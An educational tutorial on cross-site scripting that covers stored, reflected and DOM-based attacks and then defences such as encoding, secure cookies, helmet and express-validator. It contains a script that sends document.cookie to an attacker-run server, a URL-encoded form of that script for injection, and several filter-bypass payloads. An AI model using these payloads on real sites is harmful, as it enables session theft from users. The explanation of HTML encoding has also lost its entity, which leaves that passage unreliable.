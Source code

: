 # Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting (XSS) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

We will walk through different types of such attacks: Stored XSS, Reflected XSS, and DOM-Based XSS.

## Stored XSS

A stored XSS vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.

![An image showing that in Stored XSS attacker an attacker creates a comment with code, the web server saves the comment, the user requests to see the comments, then the server sends the comment to the victim's browser where the code is executed.](./imgs/Cybersecurity_XSS_Stored_v2-03.svg)

Let’s walk through the example in the image above.

Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

This effect makes Stored XSS attacks some of the most serious XSS attacks.

For example, an attacker could have a victim's session cookie sent to another server. If an attacker hosts their own server at, www.localhost:5000, they can inject code into that comment field in order to “infect” the site and run malicious code whenever someone requests to see the comments. Since comments are saved in a vulnerable site's database, this script is stored, and will be retrieved and run whenever a user accesses the comment section. One example could be, instead of writing a review, the attacker writes the following:

```html
<script>
  fetch(`http://localhost:5000?data=${document.cookie}`);
</script>
```

To store the comment in the vulnerable site's database, the attacker can use [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) to parse the text and format it so it is passed as a query parameter to the backend.

> http://examplevulnerablesite.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

## Reflected XSS

Reflected XSS occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request.

Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script. Take a look at the example below where an attacker tricks a user into clicking a script-injected link, set up to steal that user’s credentials!

![An image showing in Reflected XSS that an attacker sends a script injected link to the victim, the victim clicks on it, the victim's browser loads the legitimate site while also executing the malicious script, and then the malicious script sends the user's information to the attacker.](./imgs/Cybersecurity_XSS_Reflected_v2.svg)

## DOM-Based XSS

The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.

For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a DOM-Based XSS attack may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!

![An image with the following steps: 1) Attacker sends link containing malicious code, 2) Victim opens link, 3) Victim's browser sends request to server, 4) Server responds with page 5) Victim's browser loads vulnerable Javascript and executes the attacker's payload.](./imgs/Cybersecurity_XSS_DOM_v2.svg)

## Identifying XSS Vulnerabilities

Let’s look at how we can uncover XSS vulnerabilities in a web application.

As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.

Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```html
<script>
  alert(1);
</script>
```

If a web server is not properly sanitizing user input, this will return a pop-up box similar to the below image.

![This image shows "<script>alert(1)</script>" was injected into the URL which caused a Javascript alert to show up on the screen.](./imgs/alert.jpg)

If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your <script> tags could be removed. There are numerous other ways we can execute code, without ever using a <script> tag. Below are some potential workarounds that could be used by an attacker.

```html
<img src="X" onerror="alert(1);" />

<b onmouseover="alert(1)">click me!</b>

<body onload=alert('test1')>
```

## Sanitization

Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.

However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as <, >, ", =, and potentially dangerous keywords.

Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.

For example, the < character would be converted to the “<” string. The browser will render this string as the “<” character, but it will not interpret it as actual HTML, preventing the attack.

It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.

There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!

## Securing Cookies and Headers

### Securing Cookies

An express server that uses express-session to store cookies has the properties httpOnly and secure to configure how to store and send cookies. Setting httpOnly and secure to true helps mitigate the risk of client-side script accessing the protected cookie.

In order to set up a cookie in an Express server, you can use the library express-session to set up a session and configure the application with specific properties pertaining to cookies:

```JavaScript
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);
```

### Setting Security Headers

Moreover, we can include the helmet package to edit HTTP headers. Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. One of them being the contentSecurityPolicy which is an added layer of security that helps to detect and mitigate certain types of attacks. Fortunately, by just including this package in your express app, 11 of these modules (including the content security policy module) will be configured automatically.

You can use helmet by adding the following line of code:

```JavaScript
app.use(helmet());
```

## Data Validation and Sanitization

In the Reflected and Stored XSS Attacks, we saw how an attacker can inject malicious code into the server and/or database using a form. This is why it’s important to validate and/or sanitize data before it’s submitted to the server.

When we validate data we ensure that the user is not submitting information that doesn’t fit a certain format. Moreover, we can use sanitization in order to reformat data so no malicious code is sent.

In other words, validation checks if the input meets a set of criteria (such as a string contains no standalone single quotation marks), whereas sanitization modifies the input to ensure that it is valid (such as removing single quotes).

There are many packages that help validate user data, and one common package is express-validator. It’s built off of the validator package, and it is recommended for use in express applications. With express-validator, we can verify if a string matches a certain format by importing certain functions such as check:

```Javascript
const { check } = require("express-validator");
```

Once the function is imported, it can be used as a middleware within our endpoints, to validate any input that’s submitted within objects attached to req (such as data sent in a form through req.body):

```Javascript
app.post("/login", [
  check('email').isEmail(),
  check("password").isLength({ min: 5 }),
], (req, res) => {});
```

In the example above, the email field is sent through a login form and retrieved from req.body. Notice how we’re using an array since we can pass in multiple check‘s for input data.

If the input data is valid, then the rest of the request will be executed and we know that the data passed in is safe and properly formatted.

